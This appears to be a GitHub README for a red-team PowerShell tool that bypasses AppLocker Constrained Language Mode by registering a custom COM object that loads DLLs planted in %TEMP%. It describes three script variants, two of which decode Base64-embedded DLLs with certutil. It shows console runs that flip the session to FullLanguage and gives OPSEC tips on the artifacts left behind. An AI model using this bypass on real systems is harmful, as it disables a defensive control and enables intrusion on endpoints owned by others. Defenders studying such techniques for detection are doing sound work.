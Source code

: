 

### `Bypass-ConstrainedLanguageMode`

Tries to bypass AppLocker Constrained Language Mode via custom COM object (as documented by @xpn in: https://www.mdsec.co.uk/2018/09/applocker-clm-bypass-via-com/ )
This directory contains three DLLs, namely: 
- `ClmDisableDll86.dll`, 
- `ClmDisableDll64.dll`, 
- `ClmDisableAssembly.dll`. 

They are going to be copied into `%TEMP%` directory. Then one of Powershell scripts choosen will create a COM object pointing to `ClmDisableDllYY.dll` library (depending on platform architecture detected). 
This effectively COM will instantiate an `InProcServer32` dll that is a native _.NET4 CLR host_ responsible for loading provided assembly in current AppDomain. The assembly will finally put a `FullLanguage` value into `LanguageMode` property of session data context. This should disable CLM for current Runspace.

Three scripts constitute this bypass, whereas the use of only one is sufficient:
  - `Bypass-CLM.ps1` - the original one, that is inteded to be put side by side with three acompanying files. It does not include any of that DLL files, merely copies them to TEMP, creates a COM object and instantiates a new instance of that COM.
  - `Bypass-CLM2.ps1` - the same as above but with the difference that it embeds all of the three DLL files in form of a Base64 encoded blob. This blob will be then written to TEMP in form of text file, which will get decoded using `certutil -decode` (**OPSEC Warning!**)
  - `Bypass-CLM-Mini.ps1` - the same as above (`Bypass-CLM2.ps1`) but with the difference that the entire script was itself Base64 encoded. It will be decoded using `certutil -decode` (**OPSEC Warning!**) and then proceeds with it's logic.

Successful launch of these script looks as follows:

```
PS >  $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage 
PS > .\Bypass-CLM.ps1
        AppLocker Constrined Language Mode Bypass via COM
        (implementation of: @xpn's technique, as documented in:)
        (https://www.mdsec.co.uk/2018/09/applocker-clm-bypass-via-com/)

        Re-implemented, enhanced by: Mariusz Banach, mgeeky
        -----

[.] Step 0. Planted DLL files in:
        C:\Users\danj\AppData\Local\Temp\ClmDisableAssembly.dll
        C:\Users\danj\AppData\Local\Temp\ClmDisableDll.dll
[.] Step 1. Creating custom COM object.
[.] Step 2. Invoking it (ClmDisableDll)...
        Powershell runspace Thread ID: 8716
[+] Managed mode assembly. Disabling CLM globally.
        Current thread ID (managed/unmanaged): 8 / 8716
        Passed argument: '(called from native CLR host)'

============
Use below command to disable CLM on Demand (ignore errors):

        PS> New-Object -ComObject ClmDisableDll

============

[+] Finished. CLM status: FullLanguage

PS > New-Object -ComObject ClmDisableDll
PS > $ExecutionContext.SessionState.LanguageMode
FullLanguage 
```

And for the mini version of that script:

```
PS > .\Bypass-CLM-Mini.ps1
Input Length = 308574
Output Length = 115712
CertUtil: -decode command completed successfully.
[+] Managed mode assembly. Disabling CLM globally.
        Current thread ID (managed/unmanaged): 8 / 8716
        Passed argument: '(called from native CLR host)'

[+] Finished. CLM status: FullLanguage
```

Since this script only alters static variable determining CLM mode from within a separated Runspace dedicated to loaded Assembly, we need to instantiate our own COM object within working Powershell environment like so:

```
PS> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage

PS> New-Object -ComObject ClmDisableDll

PS> $ExecutionContext.SessionState.LanguageMode
FullLanguage
```

Any further commands will be executed in CLM disabled runspace. 

Things to consider for **OPSEC**:
- This script comes with three additional DLL files: `ClmDisable86.dll`, `ClmDisable64.dll`, `ClmDisableAssembly.dll`. They're going to be inserted into `%TEMP%`. 
- Scipts `Bypass-CLM2.ps1` and `Bypass-CLM-Mini.ps1` create text files within `%TEMP%` and use `certutil -decode` to base64 decode them.
- This bypass works only for the current Runspace, therefore it is required to put your commands at the end of these `Bypass-*.ps1` scripts or to instantiate a New-Object within working PowerShell environment to leverage the bypass.

